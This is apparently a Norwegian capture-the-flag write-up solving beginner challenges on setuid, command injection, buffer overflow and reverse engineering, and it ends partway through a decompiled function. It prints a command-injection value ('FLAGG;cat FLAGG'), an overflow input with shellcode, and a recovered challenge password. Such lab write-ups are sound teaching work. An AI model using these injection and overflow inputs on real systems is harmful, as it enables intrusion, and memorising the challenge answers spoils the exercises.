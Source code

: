 ## Grunnleggende
### 1. Hvordan virker det.
    En kort forkaring over hvordan systemet virker og hvordan man kan registrere flagg man finner.
    
Her er det veldig grunnleggende, oppsett av scoreboard og hvordan registrere flagg.

~~~bash
scoreboard --set-name fjank
cat FLAGG
scoreboard FLAGG
~~~

### 2. Setuid basic
    En forklaring av hvordan setuid fungerer
      
Interessant, å bli introdusert for [setuid programmer](https://en.wikipedia.org/wiki/Setuid) som grunnleggende. 
Dette kan bli interessant. Setuid programmet ligger i samme katalog som vi står i, så det er bare å referere
til current katalog for å kjøre korrekt program.
~~~bash
./cat FLAGG
~~~

### 3. Basic injection
    En forklaring av hvordan command injection fungerer.

Basic [command injection](https://owasp.org/www-community/attacks/Command_Injection) løser denne enkelt.

~~~bash
./md5sum "FLAGG;cat FLAGG"
~~~

### 4. Basic buffer overflow
    En forklaring av hvordan en basic buffer overflow fungerer.
    
En svært enkelt buffer overflow med masse hjelp, man blir holdt i hånden hele veien.
~~~bash
cat overflow.c
export SHC=$(cat sample_shellcode)
/overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHabcdefghabcdefghabcdefgh000000
cat FLAGG
~~~    
    
### 5. Basic reverse engineering
    En grunnleggende introduksjon til reverse engineering.
    
Denne er også veldig basic, vi får et program og skal finne et passord. [Ghidra](https://ghidra-sre.org/) hjelper oss til å finne metoden
check_password, som med litt statisk analyse lett gir oss passordet "Reverse_engineering_er_morsomt__".
~~~c
undefined8 check_password(char *param_1)

{
  int iVar1;
  size_t sVar2;
  undefined8 uVar3;
  char local_16;
  undefined local_15;
  undefined local_14;
  undefined local_13;
  undefined local_12;
  undefined local_11;
  undefined local_10;
~~~